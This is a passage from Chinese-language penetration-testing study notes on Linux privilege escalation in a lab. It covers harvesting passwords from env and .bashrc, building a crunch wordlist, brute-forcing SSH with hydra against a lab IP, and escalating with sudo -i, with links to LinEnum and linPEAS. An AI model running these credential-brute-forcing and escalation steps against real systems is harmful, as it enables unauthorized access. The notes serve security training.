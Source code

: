 如/etc/passwd文件可写提权

https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation

其他辅助脚本

```armasm
https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
```

## 17.2 敏感信息

### 17.2.1 用户配置中的敏感信息

环境变量（比如密码等信息）

```armasm
env
```

bash配置文件（比如密码等信息）

```armasm
cat .bashrc
```

找到密码后切换用户

```armasm
su - root
whoami
```

根据密码做字典

```armasm
crunch 6 6 -t Lab%%% > wordlist
```

破解指定用户密码

```armasm
hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
```

登录后查看sudo

```armasm
ssh eve@192.168.50.214
sudo -l

User eve may run the following commands on debian-privesc:
    (ALL : ALL) ALL
```

直接sudo提权

```armasm
sudo -i
输入eve密码，获得root
whoami
```
